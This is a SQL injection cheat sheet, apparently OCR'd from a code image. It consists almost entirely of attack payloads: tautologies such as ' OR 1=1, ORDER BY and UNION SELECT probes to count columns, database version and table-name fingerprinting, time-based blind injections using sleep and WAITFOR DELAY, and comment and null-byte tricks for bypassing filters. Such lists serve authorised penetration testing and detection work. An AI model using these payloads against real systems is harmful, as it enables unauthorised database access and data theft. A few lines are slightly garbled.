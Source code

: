 		'='
		'LIKE'
		'=0--+
		 OR 1=1
		' OR 'x'='x
		' AND id IS NULL; --
		'''''''''''''UNION SELECT '2
		%00
		/*…*/ 
		+        addition, concatenate (or space in url)
		||        (double pipe) concatenate
		%        wildcard attribute indicator
		@variable    local variable
		@@variable    global variable
		# Numeric
		AND 1
		AND 0
		AND true
		AND false
		1-false
		1-true
		1*56
		-2
		1' ORDER BY 1--+
		1' ORDER BY 2--+
		1' ORDER BY 3--+
		1' ORDER BY 1,2--+
		1' ORDER BY 1,2,3--+
		1' GROUP BY 1,2,--+
		1' GROUP BY 1,2,3--+
		' GROUP BY columnnames having 1=1 --
		-1' UNION SELECT 1,2,3--+
		' UNION SELECT sum(columnname ) from tablename --
		-1 UNION SELECT 1 INTO @,@
		-1 UNION SELECT 1 INTO @,@,@
		1 AND (SELECT * FROM Users) = 1    
		' AND MID(VERSION(),1,1) = '5';
		' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
		Finding the table name
		Time-Based:
		,(select * from (select(sleep(10)))a)
		%2c(select%20*%20from%20(select(sleep(10)))a)
		';WAITFOR DELAY '0:0:30'--
		Comments:
		#        Hash comment
		/*      C-style comment
		-- -    SQL comment
		;%00    Nullbyte
		`        Backtick

